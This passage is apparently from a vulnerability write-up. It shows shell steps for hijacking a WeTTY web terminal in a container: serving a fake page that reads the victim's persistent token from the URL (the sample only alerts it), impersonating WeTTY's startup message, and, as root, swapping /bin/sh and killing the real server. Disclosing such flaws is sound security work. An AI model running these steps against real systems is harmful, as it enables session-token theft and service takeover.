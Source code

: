 ```sh
EOF
```

Here's the fake terminal (t) site that we'll serve instead of the WeTTY client.
The victim's persistent token will be in the URL accessed via `location.href`, and this sample alerts it.
We also create a script that'll serve it.
A program called "watcher" that runs WeTTY and forwards traffic to it looks for a certain message to see when WeTTY has started listening, so we print that out too for compatibility.

```sh
mkdir -p /app/t
cat >/app/t/index.html <<'EOF'
<script>
  alert('hi from ' + location.href);
</script>
EOF

cat >/app/wetty <<'EOF'
#!/bin/dash
echo 'http 1084'
cd /app/t
python3 -m http.server 1084
EOF
chmod +x /app/wetty
```

Now we need to do something to replace the real WeTTY.
It's easy to do as root, although not entirely straightforward.
We can't edit the WeTTY installation nor the watcher program that runs it, nor the Node.js interpreter that runs them, because they're from read-only mounts, which "root" in the container doesn't actually have permission to re-mount.
But it turns out that the watcher program runs WeTTY through a shell script.
So the next easiest thing to do is to replace the shell interpreter, `/bin/sh`, from the writable overlayfs.

We write a custom implementation of `/bin/sh` (`/bin/dash` is a normal shell; `/bin/sh` is normally a symlink to that).

```sh
cat >/app/sh <<'EOF'
#!/bin/dash
if [ "$1" = /opt/nvm/versions/node/v10/bin/wetty ]; then
  exec /app/wetty
fi
exec dash "$@"
EOF
chmod +x /app/sh
```

Then swap in the fake `/bin/sh` and kill the real WeTTY server, as root:

```sh
su -c 'ln -sf /app/sh /bin/sh && pkill -x wetty'
```
